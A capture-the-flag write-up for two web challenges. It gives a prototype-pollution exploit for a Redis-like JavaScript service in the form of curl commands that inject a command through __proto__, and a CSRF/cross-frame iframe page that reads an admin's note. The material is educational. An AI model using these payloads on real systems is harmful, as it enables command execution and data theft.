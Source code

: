 ### Writeup - KVaaS (Prototype Pollution)

*21 solves / 1219 pts*

*Description: Shou, after successfully created all those Apps, starts to get ballsier and claims that every database should use HTTP to communicate with the client. Thus, he rewrites Redis in his favorite language Javascript and announces he created first KVaaS.*

```
curl http://host/set?user_token=__proto__&key=redis_set&value=[YOUR COMMAND];
curl -X PUT http://host/backup
```

### Writeup - Note App 2 (CSRF + XFS)

*7 solves / 1635 pts*

*Description: Shou just made a few updates to the former Note App: added logout function, allowed writing HTML in notes, and most importantly made everything more (un)secured. Note 1: Note App's issue is addressed here.*

main.html (some code borrowed from https://blog.d1r3wolf.com/2020/04/chaning-no-impactna-bugs-to-get-high.html)

```html
<div id=iframe1></div>
<div id=iframe2></div>
<div id=iframe3></div>
<div id=iframe4></div>
<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}
async function main(){
    ifr = document.createElement('iframe');
    ifr.src = "http://[HOST]/note/1";
    ifr.name='admin';
    iframe1.appendChild(ifr);
    await sleep(1000);
    ifr2 = document.createElement('iframe');
    ifr2.name='attack';
    ifr2.src = "/test2.html";
    iframe2.appendChild(ifr2);
    await sleep(1000);
    ifr3 = document.createElement('iframe');
    ifr3.name='attack';
    ifr3.src = "/test3.html";
    iframe3.appendChild(ifr3);
    await sleep(1000);
    ifr4 = document.createElement('iframe');
    ifr4.name='attack';
    ifr4.src = "http://[HOST]/note/5"; // <- Your note with code e.g.:
    // <script>console.log(window.top.frames[0].document.getElementsByTagName('p')[0].innerText)<script>
    iframe4.appendChild(ifr4);
}
main();
</script>
```
